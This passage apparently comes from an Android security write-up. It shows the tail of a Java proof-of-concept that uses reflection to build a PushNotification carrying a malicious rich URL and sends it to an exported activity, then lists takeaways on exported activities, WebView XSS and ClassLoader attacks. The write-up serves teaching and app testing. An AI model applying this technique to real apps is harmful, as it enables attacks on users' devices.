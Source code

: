 ```java
            Object builderInstance = builderConstructor.newInstance();

            // Build the PushNotification object using reflection
            Method idMethod = builderClass.getDeclaredMethod("id", String.class);
            idMethod.invoke(builderInstance, "123");

            Method richUrlMethod = builderClass.getDeclaredMethod("richUrl", String.class);
            richUrlMethod.invoke(builderInstance, MY_MALICIOUS_URL);

            Method buildMethod = builderClass.getDeclaredMethod("build");
            Object pushNotification = buildMethod.invoke(builderInstance);

            // Attach the PushNotification to the intent
            Bundle extras = new Bundle();
            extras.putSerializable(EXTRA_NOTIFICATION, (java.io.Serializable) pushNotification);
            intent.putExtras(extras);

            startActivity(intent);

        } catch (Exception e) {
            Log.e("ExploitApp", "Failed to send malicious intent: " + e.getMessage());
        }
    }
}
```
---

### Key Takeaways

---

#### 1. **Android app vulnerabilities go beyond SSL pinning and rooting**:

It’s a common misconception that hacking Android apps is just about bypassing root detection or SSL pinning and looking for backend API bugs. In reality, Android app vulnerabilities are often found in the app’s own Java code, not just in the backend.


#### 2. **Always check for exported activity**:

Exported activities can be an entry point for attackers. Malicious notifications or other apps can exploit vulnerabilities within exported activities. If these activities handle WebViews improperly or lack input validation, they can be vulnerable to serious issues like Cross-Site Scripting (XSS).

#### 3. **ClassLoader attacks enable deeper exploitation**:

Using a dynamic ClassLoader in Android allows an attacker to load the app’s internal classes and create objects that the app will accept as legitimate. This can bypass type checks and allow the attacker to manipulate data or inject malicious payloads into the app.

---
